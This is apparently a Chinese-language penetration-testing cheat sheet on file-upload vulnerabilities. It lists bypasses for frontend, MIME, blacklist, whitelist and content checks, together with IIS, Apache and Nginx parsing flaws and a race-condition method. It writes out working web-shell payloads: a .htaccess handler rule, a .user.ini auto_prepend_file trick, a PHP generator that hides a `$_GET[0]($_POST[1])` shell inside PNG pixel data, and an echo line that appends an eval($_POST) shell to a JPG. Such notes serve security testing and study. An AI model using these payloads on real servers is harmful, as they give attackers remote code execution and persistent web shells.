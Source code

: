 # 任意文件上传
## 前端绕过
修改JS代码
## 后端绕过
### 修改Content-Type
### 修改文件内容
`<script language='php'>phpinfo();</script>`可用于`<?php>`过滤的绕过
### 修改文件头
GIF89a
### 0x00截断绕过
### 解析漏洞
#### IIS5.x-6.x
默认将asp,asa目录下的文件解析为asp文件
不解析`；`后的内容
其他可执行文件（asa，cer，cdx）

Apache HTTPD 换行解析漏洞（CVE-2017-15715）

Apache HTTPD 多后缀解析漏洞 demo.php.zip

Nginx 解析漏洞  nginx.png/.php

IIS7.5解析漏洞 demo.png/.php

IIS6解析漏洞  在.asp、.asa目录下的任意文件都会以asp格式解析

双后缀名绕过 demo.pphphp
#### IIS7.0|IIS7.5|Nginx<8.03畸形解析漏洞
#### Nginx<8.03空字节代码执行漏洞
在图片中嵌入PHP代码然后通过访问`xxx.php%00jpg`来执行其中的代码
#### Apache从右向左解析，直到解析到认识的后缀名为止
### 上传目录修改
####   POST的filepath字段
#### 文件本身的名字
## 黑白名单绕过
### 黑名单绕过
#### 大小写混合
#### 双写绕过
#### 特殊后缀
php3，php5，php7，pht，phtml

### .htaccess文件利用
.htaccess apache服务器
```
<FilesMatch "xxx.png"> //文件匹配
SetHandler application/x-httpd-php //设置解析方式
</FilesMatch>
```
### 上传.user.ini 
使用场景：

+ 服务器脚本语言为PHP，并且使用CGI/FastCGI模式，php版本>5.3.0
+ 上传目录下要有可执行的php文件

.user.ini，它会影响php.ini中的配置，从而将指定的文件内容按php来解析，影响的范围该文件所在的目录以及子目录。需要等待php.ini中的user_ini.cache_ttl设置的时间或重启Apache才能生效，且只在php5.3.0之后的版本才生效。.user.ini比.htaccess用的更广，不管是nginx/Apache/IIS,只要是以fastcgi运行的php都可以用这个办法。如果使用Apache，则用.htaccess文件有同样的效果。
在php.ini中，有两个新的INI指令
```
; Name for user-defined php.ini (.htaccess) files. Default is ".user.ini"
; 用户自定义的php.ini文件的名字，默认是.user.ini
user_ini.filename = ".user.ini"
​
; TTL for user-defined php.ini files (time-to-live) in seconds. Default is 300 seconds (5 minutes)
; 重新读取用户INI文件的时间间隔，默认是300秒（5分钟）
user_ini.cache_ttl = 300
```
我们指定一个文件（如，xxx.jpg），那么该文件就会被包含在要执行的php文件中（如index.php），类似于在index.php中插入一句：require(./xxx.jpg);
这两个设置的区别只是在于auto_prepend_file是在文件前插入；auto_append_file在文件最后插入（当文件调用exit()时该设置无效）。
**利用方法:**
可以上传一个这样的.user.ini
`auto_prepend_file = xxx.jpg`

然后再上传一个图片马xxx.jpg
`<script language='php'>system('whoami');</script>`
#### 后缀大小写绕过
#### 点绕过
#### 空格绕过
file.php::$DATA | file.php[空格]| file.php[.]|file.php[%80-%99]（Windows系统）

### 白名单

MIME绕过

%00截断

0x00截断

0x0a截断

### 检查内容

文件头检查  上传具有正常文件头的图片马即可

突破getimagesize()  上传一个正常图像后缀的图片马，使用文件包含漏洞运行图片马中的恶意代码即可。

突破exif_imagetype()  上传具有正常文件头的图片马即可。gif的文件头为GIF89a；png的文件头为89504E47；jpg的文件头为FFD8FF。然后使用文件包含漏洞运行图片马中的恶意代码。

二次渲染 找到渲染前后没有变化的位置，将PHP代码写进去
**图片马生成脚本**
需安装php-gd库， 内嵌木马
```
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
         0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
         0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
         0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
         0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
         0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
         0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
         0x66, 0x44, 0x50, 0x33);
$img = imagecreatetruecolor(32, 32);
for ($y = 0; $y < sizeof($p); $y += 3) {
 $r = $p[$y];
 $g = $p[$y+1];
 $b = $p[$y+2];
 $color = imagecolorallocate($img, $r, $g, $b);
 imagesetpixel($img, round($y / 3), 0, $color);
}
imagepng($img,'./idat.png');
?>

//生成的马<?=$_GET[0]($_POST[1]);?>
```
图片追加木马
```echo "<?php @eval(\$_POST['hacker']);?>" >> shell1.jpg”``` 
## CMS和编辑漏洞
## 其他
条件竞争 ：发生在多个线程同时访问同一个共享代码、变量、文件等没有进行锁操作或者同步操作的场景中。
可以让burp一直发包，让php程序一直处于移动php文件到upload目录这个阶段
我们使用多线程并发访问上传的文件，总会有一次在上传文件到删除文件这个时间段访问到上传的php文件，一旦我们成功访问到上传的php文件，那么它就会向服务器写一个shell。